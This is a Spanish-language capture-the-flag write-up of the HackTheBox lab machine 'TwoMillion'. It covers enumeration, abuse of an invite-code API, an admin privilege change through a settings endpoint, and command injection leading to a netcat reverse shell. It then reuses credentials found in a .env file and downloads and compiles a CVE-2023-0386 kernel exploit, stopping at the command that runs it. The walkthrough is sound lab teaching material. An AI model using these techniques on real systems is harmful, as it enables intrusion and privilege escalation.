






# TwoMillion

`TwoMillion` es una máquina Linux de dificultad fácil que se lanzó para celebrar los 2 millones de usuarios de HackTheBox. La máquina presenta una versión antigua de la plataforma HackTheBox que incluye un código de invitación vulnerable. Tras piratear el código de invitación, se puede crear una cuenta en la plataforma. Esta cuenta permite enumerar varios puntos finales de API, uno de los cuales se puede usar para escalar privilegios a Administrador. Con acceso administrativo, se puede realizar una inyección de comando en el punto final de generación de VPN de administrador, obteniendo así un shell del sistema. Más adelante, se descubre que un archivo `.env` contiene credenciales de base de datos, y debido a la reutilización de contraseñas, los atacantes pueden iniciar sesión como usuario administrador en la máquina. Además, el núcleo del sistema está desactualizado, lo que permite utilizar la vulnerabilidad CVE-2023-0386 para obtener un shell de root.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **TwoMillion**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.221 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 23:24 CET
Initiating SYN Stealth Scan at 23:24
Scanning 10.10.11.221 [65535 ports]
Discovered open port 80/tcp on 10.10.11.221
Discovered open port 22/tcp on 10.10.11.221
Completed SYN Stealth Scan at 23:24, 11.98s elapsed (65535 total ports)
Nmap scan report for 10.10.11.221
Host is up, received user-set (0.031s latency).
Scanned at 2025-02-16 23:24:24 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.09 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65553 (2.623MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.221
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx` y el servicio de `SSH`.

```bash
❯ nmap -sCV -p22,80 10.10.11.221 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 23:25 CET
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-trane-info: Problem with XML parsing of /evox/about
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Hack The Box :: Penetration Testing Labs
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   103.06 ms 10.10.16.1
2   30.20 ms  2million.htb (10.10.11.221)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep 2million
10.10.11.221 2million.htb
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://2million.htb
http://2million.htb [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], IP[10.10.11.221], Meta-Author[Hack The Box], Script, Title[Hack The Box :: Penetration Testing Labs], X-UA-Compatible[IE=edge], YouTube, nginx
```

Al acceder a http://2million.htb, verificamos que es la siguiente página web que simula la antigua interfaz de `HackTheBox`.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de directorios y páginas web de la aplicación web. Verificamos en el resultado ha logrado enumerar diferentes directorios y páginas entre las cuales destacan `api`, `login`, `invite` y `register`. Esto lo enumeraremos más adelante.

```bash
❯ feroxbuster -u http://2million.htb/ -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://2million.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       11w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
401      GET        0l        0w        0c http://2million.htb/api
200      GET       27l      201w    15384c http://2million.htb/images/favicon.png
200      GET      245l      317w    28522c http://2million.htb/images/logofull-tr-web.png
200      GET      260l      328w    29158c http://2million.htb/images/logo-transparent.png
302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
200      GET        1l        8w      637c http://2million.htb/js/inviteapi.min.js
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
200      GET        8l     3162w   254388c http://2million.htb/js/htb-frontpage.min.js
200      GET        5l     1881w   145660c http://2million.htb/js/htb-frontend.min.js
200      GET       13l     2209w   199494c http://2million.htb/css/htb-frontpage.css
200      GET       80l      232w     3704c http://2million.htb/login
200      GET       96l      285w     3859c http://2million.htb/invite
200      GET       13l     2458w   224695c http://2million.htb/css/htb-frontend.css
200      GET       46l      152w     1674c http://2million.htb/404
200      GET     1242l     3326w    64952c http://2million.htb/
405      GET        0l        0w        0c http://2million.htb/api/v1/user/register
200      GET       94l      293w     4527c http://2million.htb/register
405      GET        0l        0w        0c http://2million.htb/api/v1/user/login
```

Al acceder a [http://2million.htb/login](http://2million.htb/login), nos encontramos con la siguiente interfaz de inicio de sesión de HTB.

<figure><figcaption></figcaption></figure>

Accedemos a [http://2million.htb/register](http://2million.htb/register) y comprobamos la siguiente interfaz que nos permite registrar nuestro usuario. Al intentar registrarnos, debemos de disponer de un `Invite code` válido.

<figure><figcaption></figcaption></figure>

## Initial Foothold

### Abusing declared JavaScript functions from the browser console

Al acceder a [http://2million.htb/invite](http://2million.htb/invite), comprobamos que debemos de introducir un  `Invite Code`.

<figure><figcaption></figcaption></figure>

Al revisar el código fuente, verificamos que hay un script de JS relacionada con la API y con el `Invite Code`.

<figure><figcaption></figcaption></figure>

Al ingresar al script en cuestión, verificamos de la existencia de una función llamada `makeInviteCode`.

<figure><figcaption></figcaption></figure>

Abriremos el `Console` del navegador y probaremos de llamar a la función `makeInviteCode`. Verificamos que al ejecutar la función declarada de JS, se nos proporciona una información codificada en Rot13.

<figure><figcaption></figcaption></figure>

Realizamos la descodificación del contenido cifrado en Rot13. Comprobamos el siguiente mensaje, en el cual se menciona que para generar un `invite code`, deberemos de realizar una petición por `POST` a `/api/v1/invite/generate`.

```bash
❯ rot13 'Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr'
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

### Abusing the API to generate a valid invite code

Realizaremos la solicitud por el método `POST` al `endpoint` que se nos indicaba. Verificamos que nos proporcionan un código codificado en lo que parece ser una cadena de `Base64`.

```bash
❯ curl -s -X POST 'http://2million.htb/api/v1/invite/generate' | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "MlI1QlotVzFCR1UtNzM5MzMtMVc1NUY=",
    "format": "encoded"
  }
}
```

Descodificaremos el contenido anterior en `Base64` y comprobamos que parece proporcionarnos lo que parece ser el `invite code`.

```bash
❯ echo 'MlI1QlotVzFCR1UtNzM5MzMtMVc1NUY=' | base64 -d; echo
2R5BZ-W1BGU-73933-1W55F
```

Desde [http://2million.htb/verify](http://2million.htb/verify), ingresaremos el `invite code` y lde daremos a la opción de `Sign UP` para continuar con el registro de nuestro usuario.

<figure><figcaption></figcaption></figure>

Verificamos que se nos ha rellenado automáticamente el campo de `Invite code` y al parecer ahora si nos debería permitir registrarnos correctamente.

<figure><figcaption></figcaption></figure>

Una vez registrado nuestro usuario, probaremos de iniciar sesión en [http://2million.htb/login](http://2million.htb/login).

<figure><figcaption></figcaption></figure>

### Abusing the API to elevate our privilege to administrator

Comprobaremos que hemos podido acceder correctamente a la página de `HackTheBox` con nuestro usuario recién registrado.

<figure><figcaption></figcaption></figure>

Al enumerar las diferentes opciones de la página web, verificamos que al hacer `hovering` en las opciones de `Connection Pack` o `Regenerate`, se nos muestra un `endpoint` de una `API`.

<figure><figcaption></figcaption></figure>

Interceptaremos la solicitud con `BurpSuite`, y comprobamos que accediendo al `endpoint` de `/api/v1/user/vpn/generate`, en la respuesta port parte del servidor se nos proporciona el contenido de la VPN generada.

<figure><figcaption></figcaption></figure>

Intentamos enumerar la `API` desde la raíz, en el resultado obtenido se nos indica el `endpoint` llamado `/api/v1`.

<figure><figcaption></figcaption></figure>

Accediendo al `endponint` llamado `/api/v1` se nos proporciona los detalles completos de la `API`, con las diferentes opciones que ofrece.

<figure><figcaption></figcaption></figure>

Mediante el método `GET`, tratamos de verificar en el `endpoint` nombrado `/api/v1/admin/auth` si el usuario actual que disponemos tenía permisos de administración.

En la respuesta por parte del servidor, se nos indicaba que no disponíamos de permisos de administración.

<figure><figcaption></figcaption></figure>

Tratamos de investigar sobre el `endpoint` llamado `/api/v1/admin/settings/update` que según se nos indicaba, nos permitiría modificar la configuración de los usuarios.

La solicitud la deberemos tramitar por el método `PUT`, en este caso, se nos indicaba que el `Content-Type` no era válido. Esto debido que normalmente las `API` esperan un formato `JSON`, tal y como se aprecia en la respuesta del servidor.

<figure><figcaption></figcaption></figure>

Modificamos el `Content-Type` para que sea el `application/json` y el enviar nuevamente la solicitud, se nos indica de la falta del parámetro `email`.

<figure><figcaption></figcaption></figure>

Añadiremos el parámetro `email` y indicaremos el de nuestro usuario registrado. Al enviar la petición se nos indicaba nuevamente la falta de un parámetro, en este caso, el parámetro `is_admin`.

<figure><figcaption></figcaption></figure>

Añadimos el parámetro `is_admin` y le indicaremos el valor `True` para realizar una prueba. En la respuesta por parte del servidor, se nos indica que debemos de indicar el valor `0` (no administrador) o `1` (administrador).

<figure><figcaption></figcaption></figure>

Volvemos a adaptar nuestra solicitud, al enviarla nuevamente se nos proporciona que el usuario `gzzcoo` ha sido modificado como usuario administrador.

<figure><figcaption></figcaption></figure>

Realizaremos la solicitud por `GET` del `endpoint` llamado `/api/v1/admin/auth` para verificar si el usuario que disponemos después de la modificación si tiene los permisos de administración. Verificamos que hemos conseguido proporcionarle los permisos correspondientes.


IMPORTANTE: deberemos de eliminar el `Content-Type` de `JSON` y los datos anteriores, para no tener problemas con la solicitud.


<figure><figcaption></figcaption></figure>

Ahora que disponemos de permisos de administración, verificamos que disponemos del acceso al `endpoint` llamado `/api/v1/admin/vpn/generate`, en la cual mediante el método `POST`, podemos generar una nueva VPN a cualquier usuario.

En este caso, al tramitar la solicitud, se nos vuelve a indicar que hace falta el `Content-Type` correcto.

<figure><figcaption></figcaption></figure>

Al enviar la solicitud, con el `Content-Type` de `application/json` añadido, se nos indica la falta del parámetro `username`.

<figure><figcaption></figcaption></figure>

Añadiremos el parámetro `username` y realizaremos la prueba con nuestro mismo usuario. Al enviar la solicitud, se nos genera una VPN para nuestro usuario.

<figure><figcaption></figcaption></figure>

### Command Injection via poorly designed API functionality

Es probable que el código en `PHP` no sea el que genera la clave VPN directamente, sino que esté ejecutando algún script en `Bash` para manejar la generación. Deberemos confirmar si podemos inyectar comandos.

Si el servidor está ejecutando algo como:  `generate_vpn.sh [username]`. Podemos intentar inyectar un `;` en el nombre de usuario para cortar el comando y ejecutar uno nuevo. También podemos añadir al final de nuevo un `;` o `#` para comentar el resto de código en el caso que lo hubiera,

Al realizar la prueba, verificamos que hemos logrado un `Command Injection` y `RCE`.

<figure><figcaption></figcaption></figure>

El siguiente paso, será lograr obtener acceso al sistema a través de una Reverse Shell. Para ello, nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos la siguiente `Command Injection` que nos proporcione la Reverse Shell.

<figure><figcaption></figcaption></figure>

Verificamos que hemos ganado acceso al sistema y nos encontramos como usuario `www-data`. Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.221] 45582
bash: cannot set terminal process group (1173): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2million:~/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@2million:~/html$ export TERM=xterm
www-data@2million:~/html$ export SHELL=bash
www-data@2million:~/html$ stty rows 46 columns 230
```

## Initial Access

### Information Leakage

Enumerando el directorio actual donde nos encontramos, revisamos la existencia de un archivo `.env`, que suele ser de entornos virtuales y traer configuraciones.

```bash
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Feb 16 22:50 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Feb 16 22:50 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Al revisar el contenido del archivo `.env`, se logra obtener las credenciales del usuario `admin`. Revisamos el archivo `/etc/passwd` y verificamos que existe el usuario `admin` y además dispone de `bash`. Con lo cual, posiblemente sean las credenciales de dicho usuario.

```bash
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

www-data@2million:~/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

Tratamos de acceder desde `SSH` con las credenciales del usuario `admin`, finalmente logramos el acceso correspondiente y podemos visualizar la flag de **user.txt**.

```bash
❯ ssh admin@2million.htb
admin@2million.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)


You have mail.
Last login: Tue Jun  6 12:43:11 2023 from 10.10.14.6
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ cat user.txt 
a4b75c8****************************
```

## Privilege Escalation

### Basic Enumeration

Realizaremos una verificación inicial de los privilegios que dispone el usuario actual. Verificamos que no disponemos de algún grupo interesante ni permisos de `sudoers`.

Por otro lado, también revisamos binarios con permisos de `SUID` y `capabilities` pero no logramos obtener nada interesante.

```bash
admin@2million:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)

admin@2million:~$ sudo -l
[sudo] password for admin: 
Sorry, user admin may not run sudo on localhost.

admin@2million:~$ find / -perm -4000 2>/dev/null
/snap/snapd/19122/usr/lib/snapd/snap-confine
/snap/core20/1891/usr/bin/chfn
/snap/core20/1891/usr/bin/chsh
/snap/core20/1891/usr/bin/gpasswd
/snap/core20/1891/usr/bin/mount
/snap/core20/1891/usr/bin/newgrp
/snap/core20/1891/usr/bin/passwd
/snap/core20/1891/usr/bin/su
/snap/core20/1891/usr/bin/sudo
/snap/core20/1891/usr/bin/umount
/snap/core20/1891/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1891/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1

admin@2million:~$ getcap -r / 2>/dev/null
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
```

### Kernel Exploitation - OverlayFS Vulnerability (CVE-2023-0386)

Al acceder por `SSH` con el usuario `admin`, se nos indicaba que teníamos un correo electrónico. Revisaremos el contenido de `/var/mail/admin` en el cual nos encontramos con un correo dirigido a nosotros en el cual se menciona de actualizar el sistema operativo debido que han aparecido nuevos `CVE`. Recalcan la vulnerabilidad `OverlayFS` que parece ser bastante grave.

```bash
admin@2million:~$ cat /var/mail/admin 
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

Revisando el kernel del equipo, parece ser una versión vulnerable a `OverlayFS`.

```bash
admin@2million:/$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

Realizamos una búsqueda por Internet, y se nos menciona el `OverlayFS`.

<figure><figcaption></figcaption></figure>

En la siguiente página web, comprobamos que la versión del kernel que dispone el equipo al parecer es vulnerable.



<figure><figcaption></figcaption></figure>




Se encontró una falla en el kernel de Linux, donde se encontró acceso no autorizado a la ejecución del archivo setuid con capacidades en el subsistema OverlayFS del kernel de Linux cuando un usuario copia un archivo con capacidades desde un montaje nosuid a otro montaje. Este error de mapeo de uid permite que un usuario local escale sus privilegios en el sistema.



Nos encontramos con el siguiente repositorio de GitHub que nos proporcionan los archivos necesarios para explotar esta vulnerabilidad. Nos descargaremos el repositorio a través de un `.zip`.



<figure><figcaption></figcaption></figure>

Comprobaremos que disponemos del archivo comprimido en nuestro equipo, lo renombraremos y lo compartiremos a través de un servidor web.

```bash
❯ ls -l CVE-2023-0386-master.zip
.rw-rw-r-- kali kali 11 KB Sun Feb 16 23:59:40 2025  CVE-2023-0386-master.zip

❯ mv CVE-2023-0386-master.zip gzzcoo.zip

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el comprimido y lo descomprimiremos.

```bash
admin@2million:/tmp$ wget 10.10.16.3/gzzcoo.zip
--2025-02-16 23:02:04--  http://10.10.16.3/gzzcoo.zip
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11579 (11K) [application/zip]
Saving to: ‘gzzcoo.zip’

gzzcoo.zip                  100%[==========================================>]  11.31K  --.-KB/s    in 0s      

2025-02-16 23:02:05 (30.4 MB/s) - ‘gzzcoo.zip’ saved [11579/11579]

admin@2million:/tmp$ unzip gzzcoo.zip 
Archive:  gzzcoo.zip
737d8f4af6b18123443be2aed97ade5dc3757e63
   creating: CVE-2023-0386-master/
  inflating: CVE-2023-0386-master/Makefile  
  inflating: CVE-2023-0386-master/README.md  
  inflating: CVE-2023-0386-master/exp.c  
  inflating: CVE-2023-0386-master/fuse.c  
  inflating: CVE-2023-0386-master/getshell.c  
   creating: CVE-2023-0386-master/ovlcap/
 extracting: CVE-2023-0386-master/ovlcap/.gitkeep  
   creating: CVE-2023-0386-master/test/
  inflating: CVE-2023-0386-master/test/fuse_test.c  
  inflating: CVE-2023-0386-master/test/mnt  
  inflating: CVE-2023-0386-master/test/mnt.c 
```

Accederemos al directorio correspondiente y ejecutaremos `make all` para compilar el proyecto.

```bash
admin@2million:/tmp$ cd CVE-2023-0386-master/
admin@2million:/tmp/CVE-2023-0386-master$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
fuse.c:216:5: warning: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
  216 |     close(fd);
      |     ^~~~~
      |     pclose
fuse.c:221:5: warning: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
  221 |     rmdir(mount_path);
      |     ^~~~~
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/11/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xaf4e): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

Verificamos que se nos han generado diversos archivos adicionales.

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ls -l
total 1444
-rwxrwxr-x 1 admin admin   17160 Feb 16 23:02 exp
-rw-rw-r-- 1 admin admin    3093 May 16  2023 exp.c
-rwxrwxr-x 1 admin admin 1407736 Feb 16 23:02 fuse
-rw-rw-r-- 1 admin admin    5616 May 16  2023 fuse.c
-rwxrwxr-x 1 admin admin   16096 Feb 16 23:02 gc
-rw-rw-r-- 1 admin admin     549 May 16  2023 getshell.c
-rw-rw-r-- 1 admin admin     150 May 16  2023 Makefile
drwxrwxr-x 2 admin admin    4096 May 16  2023 ovlcap
-rw-rw-r-- 1 admin admin     180 May 16  2023 README.md
drwxrwxr-x 2 admin admin    4096 May 16  2023 test
```

Siguiendo la explotación, deberemos de ejecutar los siguientes archivos para conseguir acceso como `root`.

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./fuse ./ovlcap/lower ./gc
